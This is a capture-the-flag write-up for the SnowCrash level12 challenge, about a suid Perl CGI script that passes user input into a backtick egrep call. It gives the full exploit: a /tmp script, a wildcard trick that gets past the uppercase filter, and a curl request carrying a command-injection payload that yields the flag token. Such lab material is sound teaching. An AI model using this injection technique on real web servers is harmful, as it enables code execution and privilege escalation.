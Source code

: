 In our home directory, we see a perl script with suid/guid bit and extended permissions:
    >$ ls -l
    total 4
    -rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl

let's understand what the script does:
    >$ cat level12.pl
    #!/usr/bin/env perl
    # localhost:4646
    use CGI qw{param};
    print "Content-type: text/html\n\n";

    sub t {
      $nn = $_[1];
      $xx = $_[0];
      $xx =~ tr/a-z/A-Z/;
      $xx =~ s/\s.*//;
      @output = `egrep "^$xx" /tmp/xd 2>&1`;
      foreach $line (@output) {
          ($f, $s) = split(/:/, $line);
          if($s =~ $nn) {
              return 1;
          }
      }
      return 0;
    }

    sub n {
      if($_[0] == 1) {
          print("..");
      } else {
          print(".");
      }
    }

    n(t(param("x"), param("y")));

This web page takes 2 parameters:`x` and` y`.

- `x` Passes into 2 regex, one to pass all characters to `upper case`, and another to make sure the argument must start with whitespaces characters and be followed by characters, then is used to execute the `egrep` command.

- `y` won't help us.

`egrep` is a command that will search for a pattern in folders that match that pattern.

Let's start by creating a script to run the `getflag` command in a file:

    >$ `echo "getflag > /tmp/test" > /tmp/EXPLOIT`

Then let's do the following test, replacing `/tmp` with `*` so that we don't have to worry about regex:
    >$ curl '{VM_IP}:4646?x="`/*/EXPLOIT`"'
    ..level12@SnowCrash:~$ cat /tmp/test
    cat: /tmp/test: No such file or directory

Our test file was not created, so the command did not work. And after running the script directly we can see this:
    >$ ./level12.pl x="`/*/EXPLOIT`"
    -bash: /tmp/EXPLOIT: Permission denied
    Content-type: text/html

    ..level12@SnowCrash:~$

We then just need to change the permissions of `EXPLOIT` with a chmod. If we run the commands again we can see that it works:
    >$ chmod 777 /tmp/EXPLOIT
    >$ curl '{VM_IP}:4646?x="`/*/EXPLOIT`"'
    ..level12@SnowCrash:~$ cat /tmp/test
    Check flag.here is your token : g1qKMiRpXf53AWhDaU7FEkczr

Vulnerability:
Privilege escalation via CGI code injection 